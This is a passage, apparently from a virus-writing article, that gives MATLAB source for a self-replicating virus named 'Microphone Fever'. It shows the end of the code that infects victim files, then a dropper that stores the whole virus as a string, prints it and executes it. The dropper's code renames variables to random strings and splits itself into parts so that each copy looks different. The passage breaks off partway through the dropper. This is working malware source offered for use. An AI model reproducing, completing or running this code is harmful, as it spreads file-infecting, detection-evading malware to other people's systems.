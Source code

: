         fclose(VicIDw);
    end
end


VicLines(:)
NewInfCode(:)
load gong.mat;
sound(y, Fs);
- - - - - - - - - - - - - 





  5) Running-Virus Dropper

     The first generation is started via a dropper, that contains the whole
     viruscode as a string. It first shows the code of the virus in the
     Matlab window, then executes it.

- - - - - - - - - - - - - 
disp('Microphone Fever - the best thing you can do within 153 seconds...');
MyCode=['warning off all;'];
MyCode=[MyCode 'MyCode=[MyCode,'' ''];VarList2Change={''MyCode'' ''TmpRndName'' ''ThisVarContainsVirus''  ''VarList2Change'' ''FfAll'' ''DfAll'' ''SplitOffset'' ''CodePart'' ''TmpOrd'' ''Rnames'' ''NewCode'' ''TrashNames'' ''TrashLine'' ''SplitSize'' ''QuoteSign'' ''CreateTrashA'' ''CreateTrashB'' ''CreateTrashC'' ''CreateTrashD'' ''CreateTrash1'' ''CreateTrash2'' ''ODEfile'' ''odefunction'' ''RandPermSS'' ''AlgoMatrix'' ''ViralBodyVariable'' ''ActualCodeForThisPart'' ''Var2Wrt'' ''ObfusCount'' ''RandomAppearenceOfIfs'' ''LineBreaksIf'' ''LineShift'' ''runcode'' ''RandNameCol'' ''CODE'' ''TRASH'' ''WhichMathAlgo'' ''FReplacePool1'' ''StartFunction'' ''SReplacePool1'' ''OReplacePool1'' ''MatSizeN'' ''SomeMatVec'' ''MultFct'' ''SpecMatName'' ''SpecVecName'' ''WhichMatrixAlgo'' ''MatArOp'' ''VecArOp'' ''SavedVector'' ''IsItAVector'' ''Operator1'' ''Operator2'' ''BoundAll1'' ''BoundAll2'' ''BoundAll3'' ''BoundTmpA'' ''BoundTmpB'' ''BoundSign'' ''FctString1'' ''FctString2'' ''FctString3'' ''IntTolerance'' ''TimeMeasure'' ''CompleteCompString'' ''CompleteErg'' ''InterpDataVec'' ''InterpSpline'' ''ODEIntervallA'' ''ODEIntervallB'' ''ODEDomain'' ''ODEIntX'' ''SReplacePool2'' ''RCWriteVar'' ''RCNumSub'' ''RCNumAdd'' ''MulFacRC'' ''IncFa'' ''RC'' ''RCsSub'' ''RCsAdd'' ''VirCode'' ''IsAllEmpty'' ''VicFiles'' ''VicLines'' ''NewInfCode'' ''VicIDr'' ''IsAPO'' ''EndArray'' ''EndCount'' ''GoodLine'' ''IsAPP'' ''IsStart'' ''IsEnd'' ''VCsplitted'' ''VirSplit'' ''VicIDw'' ''Count000'' ''Count001'' ''Count002'' ''Count003'' ''Count004'' ''Count005'' ''Count006'' ''Count007'' ''Count008'' ''Count009'' ''Count010'' ''Count011'' ''Count012'' ''Count013'' ''Count014'' ''Count015'' ''Count016'' ''Count017'' ''Count018'' ''Count019'' ''Count020'' ''Count021'' ''Count022'' ''Count023'' ''Count024'' ''Count025'' ''Count026'' ''Count027'' ''Count028'' ''Count029'' ''Count030'' ''Count031'' ''Count032'' ''Count033'' ''TmpVar001'' ''TmpVar002'' ''TmpVar003'' ''TmpVar004'' ''TmpVar005'' ''TmpVar006'' ''TmpVar007'' ''TmpVar008''};FfAll={''sin'' ''sinh'' ''asin'' ''asinh'' ''cos'' ''cosh'' ''acos'' ''acosh'' ''tan'' ''tanh'' ''atan'' ''atanh'' ''sec'' ''sech'' ''asec'' ''asech'' ''csc'' ''csch'' ''acsc'' ''acsch'' ''cot''  ''coth'' ''acot'' ''acoth'' ''exp'' ''expm1'' ''log'' ''log1p'' ''log10'' ''log2'' ''pow2'' ''sqrt'' ''nextpow2'' ''abs'' ''angle'' ''conj'' ''imag'' ''real'' ''unwrap'' ''fix'' ''floor'' ''ceil'' ''round'' ''sign'' ''airy'' ''expint''};DfAll={''hypot'' ''dot'' ''cart2pol'' ''pol2cart'' ''atan2''};TmpRndName={};for Count032=1:length(VarList2Change) TmpRndName{end+1}=''if'';while(any(strcmp({FfAll{:} DfAll{:} TmpRndName{1:end-1}},TmpRndName{end}))||iskeyword(TmpRndName{end}))TmpRndName{end}=char(fix(rand(1,fix(rand*15)+5)*25)+97);end;end;for Count031=1:length(VarList2Change) MyCode=strrep(MyCode,VarList2Change{Count031},TmpRndName{Count031});end;'];
MyCode=[MyCode 'rand(''twister'',fix(sum(cputime)));SplitOffset=unique([1,sort(fix(rand(1,fix(rand*length(MyCode)/5)+3)*size(MyCode,2)+1)),size(MyCode,2)]);CodePart={};Rnames={};NewCode={};TrashNames={};TrashLine={};SplitSize=size(SplitOffset,2)-1;'];
MyCode=[MyCode 'QuoteSign=char(39);for Count033=1:SplitSize CodePart{end+1}=strrep(MyCode(SplitOffset(Count033):SplitOffset(Count033+1)-1),QuoteSign,[QuoteSign QuoteSign]);Rnames{end+1}=''sin'';while any(strcmp({FfAll{:} DfAll{:} Rnames{1:end-1}},Rnames{end})) Rnames{end}=char(fix(rand(1,fix(rand*15)+4)*25)+97);end;end;'];